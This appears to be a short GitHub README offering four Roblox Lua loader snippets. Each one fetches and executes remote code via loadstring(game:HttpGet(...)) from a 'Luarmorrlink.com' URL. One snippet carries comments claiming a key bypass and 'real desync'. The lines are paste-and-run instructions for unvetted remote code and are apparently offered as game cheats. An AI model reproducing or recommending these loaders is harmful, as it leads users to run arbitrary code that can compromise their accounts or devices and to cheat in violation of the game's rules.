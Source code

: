 # Task1

```Lua
Script_Key="";

loadstring(game:HttpGet("https://Luarmorrlink.com/ssh4/v2file", true))()
```


# v1

```Lua
Script_Key="";

loadstring(game:HttpGet("https://Luarmorrlink.com/ssh5/v2file", true))()
``
# Task2

```Lua
Script_Key="";

loadstring(game:HttpGet("https://Luarmorrlink.com/ssh6/v2file", true))()
```


# v3

```Lua
Script_Key="";
--[[
Key Bypass dont eork

Real desync
legit
]]

loadstring(game:HttpGet("https://Luarmorrlink.com/ssh7/v2file", true))()
```
